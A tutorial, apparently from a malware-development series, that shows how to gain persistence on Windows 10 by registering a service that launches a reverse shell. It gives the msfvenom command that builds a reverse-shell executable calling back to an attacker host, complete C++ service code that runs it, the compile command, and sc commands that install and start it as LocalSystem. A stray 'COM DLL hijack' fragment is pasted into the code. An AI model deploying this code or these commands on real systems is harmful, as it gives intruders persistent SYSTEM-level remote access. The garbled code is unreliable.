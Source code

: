 # 05 persistence - windows services

Windows Services are essential for hacking due to the following reasons:    

- They operate natively over the network – the entire Services API was created with remote servers in mind.    
- They start automatically when the system boots.    
- They may have extremely high privileges in the operating system.   

Managing services requires high privileges, and an unprivileged user can often only view the settings.
This has not changed in over twenty years.    

In a Windows context, improperly configured services might lead to privilege escalation or be utilized as a persistence technique.
So, creating a new service requires Administrator credentials and is not a stealthy persistence approach.   

Let's go to consider practical example: how to create and run a Windows service that receives a reverse shell for us.

First of all create reverse shell `exe` file via `msfvenom` from my attacker machine:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.56.1 LPORT=4445 -f exe > meow.exe
```

![img](./img/2022-05-09_16-53.png)    

![img](./img/2022-05-10_17-17.png)    

Then, create service which run my `meow.exe` in the target machine.

The minimum requirements for a service are the following:
- A Main Entry point (like any application)    
- A Service Entry point    
- A Service Control Handler    

In the main entry point, you rapidly invoke `StartServiceCtrlDispatcher` so the `SCM` may call your Service Entry point (`ServiceMain`):    

```cpp
int main() {
  SERVICE_TABLE_ENTRY ServiceTable[] = {
    {"MeowService", (LPSERVICE_MAIN_FUNCTION) ServiceMain},
    {NULL, NULL}
  };

  StartServiceCtrlDispatcher(ServiceTable);
  return 0;
}
```

The Service Main Entry Point performs the following tasks:
- Initialize any required things that we postponed from the Main Entry Point.    
- Register the service control handler (`ControlHandler`) that will process Service Stop, Pause, Continue, etc. control commands.    
- These are registered as a bit mask via the `dwControlsAccepted` field of the `SERVICE STATUS` structure.    
- Set Service Status to `SERVICE RUNNING`.
- Perform initialization procedures. Such as creating threads/events/mutex/IPCs, etc.

```cpp
void ServiceMain(int argc, char** argv) {
  serviceStatus.dwServiceType        = SERVICE_WIN32;
  serviceStatus.dwCurrentState       = SERVICE_START_PENDING;
  serviceStatus.dwControlsAccepted   = SERVICE_ACCEPT_STOP | SERVICE_ACCEPT_SHUTDOWN;
  serviceStatus.dwWin32ExitCode      = 0;
  serviceStatus.dwServiceSpecificExitCode = 0;
  serviceStatus.dwCheckPoint         = 0;
  serviceStatus.dwWaitHint           = 0;

  hStatus = RegisterServiceCtrlHandler("MeowService", (LPHANDLER_FUNCTION)ControlHandler);
  RunMeow();

  serviceStatus.dwCurrentState = SERVICE_RUNNING;
  SetServiceStatus (hStatus, &serviceStatus);

  while (serviceStatus.dwCurrentState == SERVICE_RUNNING) {
    Sleep(SLEEP_TIME);
  }
  return;
}
```

The Service Control Handler was registered in your Service Main Entry point. Each service must have a handler to handle control requests from the SCM:
```cpp
void ControlHandler(DWORD request) {
  switch(request) {
    case SERVICE_CONTROL_STOP:
      serviceStatus.dwWin32ExitCode = 0;
      serviceStatus.dwCurrentState  = SERVICE_STOPPED;
      SetServiceStatus (hStatus, &serviceStatus);
      return;

    case SERVICE_CONTROL_SHUTDOWN:
      serviceStatus.dwWin32ExitCode = 0;
      serviceStatus.dwCurrentState  = SERVICE_STOPPED;
      SetServiceStatus (hStatus, &serviceStatus);
      return;

    default:
      break;COM DLL hijack
  }
  SetServiceStatus(hStatus,  &serviceStatus);
  return;
}
```

I have only implemented and supported the `SERVICE_CONTROL_STOP` and `SERVICE_CONTROL_SHUTDOWN` requests. You can handle other requests such as `SERVICE_CONTROL_CONTINUE`, `SERVICE_CONTROL_INTERROGATE`, `SERVICE_CONTROL_PAUSE`, `SERVICE_CONTROL_SHUTDOWN` and others.   

Also, create function with malicious logic:    

```cpp
// run process meow.exe - reverse shell
int RunMeow() {
  void * lb;
  BOOL rv;
  HANDLE th;

  // for example: msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.56.1 LPORT=4445 -f exe > meow.exe
  char cmd[] = "Z:\\meow.exe";
  STARTUPINFO si;
  PROCESS_INFORMATION pi;
  ZeroMemory(&si, sizeof(si));
  si.cb = sizeof(si);
  ZeroMemory(&pi, sizeof(pi));
  CreateProcess(NULL, cmd, NULL, NULL, FALSE, 0, NULL, NULL, &si, &pi);
  WaitForSingleObject(pi.hProcess, INFINITE);
  CloseHandle(pi.hProcess);
  return 0;
}

int main() {
  SERVICE_TABLE_ENTRY ServiceTable[] = {
    {"MeowService", (LPSERVICE_MAIN_FUNCTION) ServiceMain},
    {NULL, NULL}
  };

  StartServiceCtrlDispatcher(ServiceTable);
  return 0;
}
```

Of course, this code is not reference and it is more *"dirty"* Proof of Concept.    

Compile our service:

```bash
x86_64-w64-mingw32-g++ -O2 meowsrv.c -o cat.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![img](./img/2024-05-05_18-47.png)    

We can install the service from the command prompt by running the following command in target machine `Windows 10 x64`. Remember that all commands run as administrator:

```powershell
sc create MeowService binpath= "Z:\cat.exe" start= auto
```

![img](./img/2024-05-06_09-47.png)    

Check:

```powershell
sc query MeowService
```

![img](./img/2024-05-06_09-47_1.png)    

If we open the `Process Hacker`, we will see it in the `Services` tab:    

![img](./img/2024-05-06_09-49.png)    

If we check its properties:    

![img](./img/2024-05-06_09-50.png)    

The `LocalSystem` account is a predefined local account used by the service control manager. It has extensive privileges on the local computer, and acts as the computer on the network. Its token includes the `NT AUTHORITY\SYSTEM` and `BUILTIN\Administrators` SIDs; these accounts have access to most system objects. The name of the account in all locales is `.\LocalSystem`. The name, `LocalSystem` or `ComputerName\LocalSystem` can also be used. This account does not have a password. If you specify the `LocalSystem` account in a call to the `CreateService` or `ChangeServiceConfig` function, any password information you provide is ignored [via MSDN](https://docs.microsoft.com/en-us/windows/win32/services/localsystem-account).    

Then, start service via command:
```powershell
sc start MeowService
```

![img](./img/2024-05-06_09-53.png)    

![img](./img/2022-05-10_18-04_2.png)    

And as you can see, we got a reverse shell!:

![img](./img/2022-05-10_18-06.png)    

And our `MeowService` service got a `PID: 5668`:

![img](./img/2022-05-10_18-06_1.png)    

Then, run `Process Hacker` as non-admin User:

![img](./img/2022-05-10_18-07.png)    

As you can see, it doesn't show us the username. But, running `Process Hacker` as Administartor changes the situation, and we see that our shell running on behalf `NT AUTHORITY\SYSTEM`:

![img](./img/2022-05-10_18-08.png)    

We will see it in the `Network` tab:   

![img](./img/2022-05-10_18-09.png)    

So, everything is worked perfectly :)    

Let's go cleaning after completion of experiments. Stop service:

```powershell
sc stop MeowService
```

![img](./img/2022-05-10_18-12.png)    

So, `MeowService` successfully stopped. And if we delete it:

```powershell
sc delete MeowService
```

![img](./img/2022-05-10_18-13.png)    

We can see `Process Hacker`'s notification about this.    

But, **there is one very important caveat**. You might wonder why we just not running command:    

```powershell
sc create MeowService binpath= "Z:\meow.exe" start= auto
```

Because, `meow.exe` is not actually a service. As I wrote earlier, the minimum requirements for a service are following specific functions: main entry point, service entry point and service control handler. If you try create service from just `meow.exe`. It's just terminate with error.   
